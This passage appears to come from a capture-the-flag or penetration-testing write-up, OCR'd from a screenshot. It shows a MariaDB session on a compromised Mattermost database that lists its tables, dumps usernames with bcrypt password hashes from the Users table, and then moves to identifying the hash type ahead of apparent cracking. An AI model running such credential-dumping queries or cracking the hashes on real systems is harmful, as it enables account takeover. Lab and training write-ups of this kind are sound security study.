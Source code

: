    MariaDB [mattermost]> SHOW TABLES;
    +------------------------+
    | Tables_in_mattermost   |
    +------------------------+
    | Audits                 |
    | Bots                   |
    ...
    | Tokens                 |
    | UploadSessions         |
    | UserAccessTokens       |
    | UserGroups             |
    | UserTermsOfService     |
    | Users                  |
    +------------------------+

// Extract users and passwords from 'Users' table

    MariaDB [mattermost]> SELECT username,password FROM Users;
    +----------------------------------+--------------------------------------------------------------+
    | username                         | password                                                     |
    +----------------------------------+--------------------------------------------------------------+
    | anony                            | $2a$10$uhylrqN33ZHEoCOYkvREZ.AqDf/pTX6kTv4Hib1W3u5prLKtdIImC |
    | surveybot                        |                                                              |
    | c3ecacacc7b94f909d04dbfd308a9b93 | $2a$10$u5815SIBe2Fq1FZlv9S8I.VjU3zeSPBrIEg9wvpiLaS7ImuiItEiK |
    | 5b785171bfb34762a933e127630c4860 | $2a$10$3m0quqyvCE8Z/R1gFcCOWO6tEj6FtqtBn8fRAXQXmaKmg.HDGpS/G |
    | someuser                         | $2a$10$jvWaaLYiRBdbc68iW66RfuEaEST1YPcLU/o0EIXVo6uvMh40OAIlC |
    | anonymous                        | $2a$10$53zUIVa4WBHwTPhinTdRtuZTTL6pcy4l5Ew051VfoAAuD/JAjU/Ku |
    | root                             | $2a$10$VM6EeymRxJ29r8Wjkr8Dtev0O.1STWb4.4ScG.anuu7v0EFJwgjjO |
    | ff0a21fc6fc2488195e16ea854c963ee | $2a$10$RnJsISTLc9W3iUcUggl1KOG9vqADED24CQcQ8zvUm1Ir9pxS.Pduq |
    | channelexport                    |                                                              |
    | 9ecfb4be145d47fda0724f697f35ffaf | $2a$10$s.cLPSjAVgawGOJwB7vrqenPg2lrDtOECRtjwWahOzHfq1CoFyFqm |
    | userrrr                          | $2a$10$23DGe9yDODCFG5rtOw.9UOsCCkQ8YqFtNAZwcioFN3M3dDP0phcxC |
    +----------------------------------+--------------------------------------------------------------+

// First lets undenify the hash, we can do that with online [hash-analyzer](https://www.tunnelsup.com/hash-analyzer/)
